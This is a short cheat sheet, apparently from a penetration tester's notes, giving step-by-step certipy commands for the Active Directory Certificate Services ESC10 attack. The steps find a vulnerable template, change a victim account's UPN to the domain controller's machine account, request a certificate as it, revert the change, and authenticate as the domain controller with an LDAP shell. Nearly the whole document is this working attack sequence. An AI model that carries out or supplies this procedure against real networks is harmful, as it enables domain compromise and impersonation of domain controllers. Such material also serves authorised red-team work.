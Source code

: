 # ADCS ESC10

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Read Victim User (optional)
```
certipy account \
    -u '<username>@<domain>' -p '<password>' \
    -dc-ip '<DC_IP>' -user '<VICTIM>' \
    read
```

## 3. Update Victim User
```
certipy account \
    -u '<username>@<domain>' -p '<password>' \
    -dc-ip '<DC_IP>' -upn '<DC$>@<domain>' -user '<VICTIM>' update
```

## 4. Export Ticket
```
export KRB5CCNAME=<USERNAME>.ccache
```

## 5. Request certificate
```
certipy req \
    -k -dc-ip '<DC_IP>' \
    -target '<CA_FQDN>' -ca '<CA_HOST>' \
    -template 'User'
```

## 6. Revert Victim User
```
certipy account \
    -u '<username>@<domain>' -p '<password>' \
    -dc-ip '<DC_IP>' -upn '<VICTIM>@<domain>' -user '<VICTIM>' update
```

## 7. Authenticate
```
certipy auth -pfx dc.pfx -dc-ip <DC_IP> -ldap-shell
```
